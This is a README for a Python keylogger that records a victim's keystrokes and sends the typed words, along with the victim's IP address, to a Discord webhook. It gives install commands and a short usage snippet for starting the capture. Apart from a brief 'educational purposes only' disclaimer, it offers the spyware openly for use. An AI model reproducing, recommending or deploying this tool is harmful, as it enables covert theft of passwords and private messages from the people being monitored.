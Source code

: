 <p align='center'>
  <b>Follow me here:</b><br>
  <a href="https://discord.gg/kjdsvNqJff">Discord</a> |
  <a href="https://www.youtube.com/channel/UCdIuioH8MzwMD88XGkliupA">YouTube</a> |
  <a href="https://github.com/KanekiX2">Github</a>
</p>

--- 

**FR:** A but educatif seulement.  
**EN:** For educational purposes only.  

![](https://home.sophos.com/en-us/medialibrary/Microsites/Home/SecurityCenter/what-is-a-keylogger.jpg)
# Keylogger  
**FR** Kaneki Keylogger est un simple key logger écrit en python qui envoie les mots à chaque touche espace où entrer presser, Proposer à but éducatif.
**EN** Kaneki Keylogger is a simple keylogger written in python that sends the words to each key space to enter press, Suggest for educational purpose.


## 💻 Features
- Send the words type to a discord webhook
- Send the words at each space to avoid a ratelimit

## 🛠 Insallation & Usage
### Installation
```bash
git clone https://github.com/KanekiX2/KeyLogger
cd KeyLogger
pip install -r requirements.txt
```
### Usage
```py
from Keylogger import Inject

Injector = Inject(hook="YOUR WEBHOOK LINK")
Injector.get_ip()
Injector.run()
Injector.listener_s()
```


## 📷 Demo
![](https://cdn.discordapp.com/attachments/809886609717329920/835762012650209300/unknown.png)

##  📝 Contact
Mail : _kaneki_pro@protonmail.ch_. <br>
Discord : `Kaneki#8888`


## 📚 Contributions
All suggestions are welcome.

### 📜 License
Keylogger is under licensed MIT [MIT License](https://github.com/KanekiX2/KeyLogger/blob/master/LICENSE).

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[![Open Source Love svg1](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/)
